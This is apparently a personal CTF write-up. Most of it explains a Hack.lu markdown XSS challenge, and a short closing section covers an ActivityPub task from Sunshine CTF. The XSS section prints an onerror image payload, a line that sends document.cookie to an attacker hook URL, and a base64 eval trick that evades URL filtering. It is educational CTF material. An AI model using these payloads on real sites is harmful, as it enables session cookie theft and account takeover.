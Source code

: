 Learnt thing from Hacklu:
Here's a more structured and polished write-up for the challenge:

---

## Challenge: XSS Cookie Exfiltration

In this Hacklu CTF challenge, we solved an XSS (Cross-Site Scripting) cookie exfiltration task. Here’s a breakdown of the challenge and how we approached solving it.

### Challenge Breakdown

The challenge consisted of crafting an XSS payload to:
1. **Inject XSS via markdown input**: The XSS payload needed to pass through a markdown parser, which meant we couldn’t use standard HTML directly.
2. **Bypass a URL replacement function**: The system used a custom function to replace any URLs in our payload with local URLs, blocking external requests for exfiltration.
3. **Use `innerHTML` injection**: After the markdown parsing and URL replacement, the payload was rendered using `innerHTML`, making it vulnerable to XSS if crafted correctly.

### Initial Steps: Markdown XSS Payload

In markdown, images follow this format:

```markdown
![alt text](image_url)
```

Since `innerHTML` renders the final output, we can inject JavaScript by leveraging an `onerror` event in the image tag. Our goal was to trigger an alert as proof of concept.

#### Proof of Concept Payload

```markdown
**![catshttps://onerror=alert(1)//]()**
```

**Explanation**:
- **`![catshttps://onerror=alert(1)//]()`**: This markdown syntax is processed as an image. The broken URL (`catshttps://...`) triggers the `onerror` event, executing `alert(1)` in the browser.

This confirmed that we had achieved XSS execution. The next step was to use this exploit to exfiltrate cookies.

### Cookie Exfiltration

To exfiltrate the cookies, we aimed to encode our payload in a way that would bypass the URL replacement function. Instead of including the URL directly, we base64-encoded it.

The exfiltration payload in JavaScript looks like this:
```javascript
window.open(`{HOOK_URL}?x=${btoa(document.cookie)}`);
```

### Final Payload

Using the initial proof of concept, we adapted the payload to base64 encoding:

```markdown
**![catshttps://onerror=eval(atob('d2l=='))//]()**
```

Here:
- **`eval(atob('d2l=='))`**: This decodes and evaluates our base64-encoded payload.
- **`d2l==`**: This is a placeholder for the base64-encoded payload, which, when decoded, opens our hook URL to exfiltrate the cookie.

### Summary

1. We used a markdown-formatted image with an `onerror` attribute to trigger JavaScript.
2. Bypassed the URL replacement function by base64 encoding the payload.
3. Successfully exfiltrated the cookie using a hook URL encoded as base64.

--- 

This structured approach allowed us to achieve the desired cookie exfiltration through XSS, circumventing the challenge’s URL restriction with encoded payloads.

# Sunshine CTF
The more interesting thing learnt was from Sunshine CTF where we had to interact with accounts on fedi instances which used ActivityPub,a decentralized social networking protocol.
We had to read the docs and figure out how to interact with users on a particular instances set up for the CTF. The main thing was using a particular Accept header when sending the request: `'Accept': 'application/activity+json'`.

Also after the ctf got over got to know about https://browser.pub/ which is a directoy of fedi instances and could have helped us get the flag directly because it was just in the profile page of the user directly.

